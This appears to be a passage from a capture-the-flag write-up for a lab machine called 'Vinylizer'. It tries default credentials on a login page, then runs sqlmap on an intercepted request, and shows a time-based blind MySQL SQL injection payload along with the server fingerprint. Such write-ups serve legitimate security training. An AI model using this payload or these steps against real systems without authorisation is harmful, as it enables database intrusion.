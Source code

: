 ![login](../assets/img/Vinylizer/login.png)

I tried basic credentials like `admin:admin`, `root:toor`, ... but nothing.

We can try if there is a SQL injection. Intercept the POST request with **BurpSuite** and use **SQLMap** : 

```bash
sqlmap -r request.req
```

Wait a little : 

```bash
[16:59:53] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=admin' AND (SELECT 5180 FROM (SELECT(SLEEP(5)))Mvqp) AND 'jHDJ'='jHDJ&password=admin&login=
---
[16:59:53] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 22.04 (jammy)
web application technology: Apache 2.4.52
back-end DBMS: MySQL >= 5.0.12
[16:59:53] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/192.168.1.56'

[*] ending @ 16:59:53 /2024-05-30/
```
